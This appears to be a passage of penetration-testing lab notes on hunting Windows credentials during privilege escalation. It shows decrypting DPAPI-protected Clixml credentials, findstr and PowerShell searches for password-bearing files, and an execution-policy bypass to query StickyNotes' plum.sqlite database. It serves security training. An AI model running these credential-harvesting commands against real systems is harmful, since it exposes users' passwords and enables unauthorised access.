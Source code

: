 If we have gained command execution in the context of this user or can abuse DPAPI, then we can recover the cleartext credentials from **encrypted.xml**:
```console
PS C:\zeropio> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\zeropio> $credential.GetNetworkCredential().username
PS C:\zeropio> $credential.GetNetworkCredential().password
```

## Other Files 

There are many other types of files that we may find on a local system or on network share drives that may contain credentials or additional information that can be used to escalate privileges. We can use [Snaffler](https://github.com/SnaffCon/Snaffler) to find file with extensions like **.kdbx**, **.vmdk**, **.vdhx**, **.ppk**, ...

### Manually Searching  

We can search the file system or share drive(s) manually using the following commands from this [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#search-for-a-file-with-a-certain-filename):
```console
C:\zeropio> cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
C:\zeropio> findstr /si password *.xml *.ini *.txt *.config
C:\zeropio> findstr /spin "password" *.*
PS C:\zeropio> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
C:\zeropio> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
C:\zeropio> where /R C:\ *.config
PS C:\zeropio> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
PS C:\zeropio> dir C:\ /s /b | find "<FILE>" | findstr"<FILE>"
```

People often use the StickyNotes app on Windows workstations to save passwords and other information, not realizing it is a database file. This file is located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`{: .filepath}:
```console
PS C:\zeropio> ls 

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

We can copy the three **plum.sqlite...** and use a tool like [DB Browser for SQLite](https://sqlitebrowser.org/dl/) and view the **Text** column in the Note table with the query `select Text from Note;`. This can also be done with PowerShell using the PSSQLite module.
```console
PS C:\zeropio> Set-ExecutionPolicy Bypass -Scope Process 

A  

PS C:\zeropio> cd .\PSSQLite\
PS C:\zeropio> Import-Module .\PSSQLite.psd1
PS C:\zeropio> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\zeropio> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```
